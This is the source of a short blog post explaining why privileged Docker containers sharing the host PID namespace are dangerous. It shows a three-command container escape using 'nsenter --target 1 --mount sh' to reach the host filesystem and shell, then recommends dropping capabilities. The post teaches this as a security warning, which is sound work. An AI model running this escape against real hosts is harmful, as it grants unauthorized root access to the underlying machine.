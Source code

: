 ```yaml
---
title: "#jailbreak - Escaping the container"
layout: post
date: 2019-05-25 15:00
headerImage: false
tag:
- Docker
- Privileged containers
- Root
- jailbreak
star: false
category: blog
author: robertnorthard
description: jailbreak - escaping the container
---
```


It's common knowledge that Docker containers should not be be run in privileged mode with a shared host PID namespace, but why? In this case using a program like `nsenter` you can execute a process with the context of another processes, in this case PID 1.

This example will help provide a concrete example of escaping a container, enabling you to access the hosts file system and execute shell commands.

````

$ docker-machine start default

$ docker run --privileged --rm --pid=host -ti ubuntu 

// This gives you access to the hosts file system
$ nsenter --target 1 --mount sh 

````

This one of many ways you can escape a container. When running containers you will want to drop other [capabilities](http://man7.org/linux/man-pages/man7/capabilities.7.html) such as the ability to reboot a host from inside the container.

~ Robert
